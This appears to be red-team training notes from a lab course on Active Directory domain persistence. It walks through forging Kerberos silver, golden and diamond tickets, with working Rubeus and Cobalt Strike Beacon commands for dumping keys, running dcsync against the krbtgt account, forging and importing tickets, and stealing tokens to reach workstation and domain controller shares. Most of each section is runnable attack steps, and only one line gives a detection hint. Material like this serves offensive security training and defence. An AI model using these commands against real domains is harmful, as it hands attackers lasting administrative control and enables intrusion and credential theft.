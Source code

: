 # Domain Dominance

Once an attacker achieves a very high level of privilege in the domain, such as Domain or Enterprise Admin, it's very difficult for a defending organisation to recover or even consider the forest as "clean" again.  Attackers with this access can extract credential material from the domain and use it to re-obtain DA-level access at any time.  The majority of these credentials are never changed, which grants practically unlimited access.

## Silver Tickets

Forged service ticket signed using the secret keys of a computer. You can forge a TGS for any user to any service on that machine, which is useful for short/medium-term persistence. By default, computer passwords change every 30 days, at which time you must get the new secrets to continue making silver tickets. Tickets are forged, and can be generated by the attacker and imported into a Beacon session.

1: Dump Kerberos keys from Workstation 1 from a SYSTEM Beacon.

2: On the attacking machine, use Rubeus to forge a service ticket for nlamb and the CIFS service:

    PS C:\Users\Attacker> Rubeus.exe silver /service:cifs/wkstn-1.dev.cyberbotic.io /aes256:3ad3c... /user:nlamb /domain:dev.cyberbotic.io /sid:S-1-5-21-569305411-121244042-2357301523 /nowrap

3: Import the ticket:

    beacon> getuid
    [*] You are DEV\bfarmer (admin)
    beacon> ls \\wkstn-1.dev.cyberbotic.io\c$
    [-] could not open \\wkstn-1.dev.cyberbotic.io\c$\*: 5 - ERROR_ACCESS_DENIED
    beacon> execute-assembly Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFXD...
    beacon> steal_token 5668
    [+] Impersonated DEV\bfarmer
    beacon> ls \\wkstn-1.dev.cyberbotic.io\c$

Useful ticket combinations:

* psexec:	HOST & CIFS
* winrm:	HOST & HTTP
* dcsync (DCs only):	LDAP

## Golden Tickets

Forged TGT signed by the domain's krbtgt account. Where a silver ticket can be used to impersonate any user, it's limited to either that single service or to any service but on a single machine. A golden ticket can be used to impersonate any user, to any service, on any machine in the domain, and the credentials are never changed automatically. For that reason, the krbtgt NTLM/AES hash is probably the single most powerful secret you can obtain (and is why you see it used in dcsync examples so frequently). 

Because domain controllers don't track TGTs they have legitimately issued, they will accept TGTs that are encrypted with their own krbtgt hash.

One way to detect the use of golden tickets is to look for TGS-REQs that have no corresponding AS-REQ. 

1: Obtain the krbtgt hash by using dcsync from the context of a domain admin:

    beacon> dcsync dev.cyberbotic.io DEV\krbtgt

2: Forge the ticket offline using Rubeus:

    PS C:\Users\Attacker> Rubeus.exe golden /aes256:51d7f3... /user:nlamb /domain:dev.cyberbotic.io /sid:S-1-5-21-569305411-121244042-2357301523 /nowrap

3: Import into a logon session to use:

    beacon> execute-assembly Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFLz...
    beacon> steal_token 5060
    beacon> run klist
    beacon> ls \\dc-2.dev.cyberbotic.io\c$

## Diamond Tickets

Made by modifying the fields of a legitimate TGT that was issued by a DC. This is achieved by requesting a TGT, decrypting it with the domain's krbtgt hash, modifying the desired fields of the ticket, then re-encrypting it. This overcomes the aforementioned shortcoming of a golden ticket because any TGS-REQs will have a preceding AS-REQ.

1: Prove we have no access to the DC:

    beacon> getuid
    beacon> ls \\dc-2.dev.cyberbotic.io\c$

2: Create the diamond ticket:

    beacon> execute-assembly Rubeus.exe diamond /tgtdeleg /ticketuser:nlamb /ticketuserid:1106 /groups:512 /krbkey:51d7... /nowrap

where:

    /tgtdeleg uses the Kerberos GSS-API to obtain a useable TGT for the current user without needing to know their password, NTLM/AES hash, or elevation on the host.
    /ticketuser is the username of the user to impersonate.
    /ticketuserid is the domain RID of that user.
    /groups are the desired group RIDs (512 being Domain Admins).
    /krbkey is the krbtgt AES256 hash.

Rubeus describe will now show that this is a TGT for the target user.

    PS C:\Users\Attacker> Rubeus.exe describe /ticket:doIFYj...
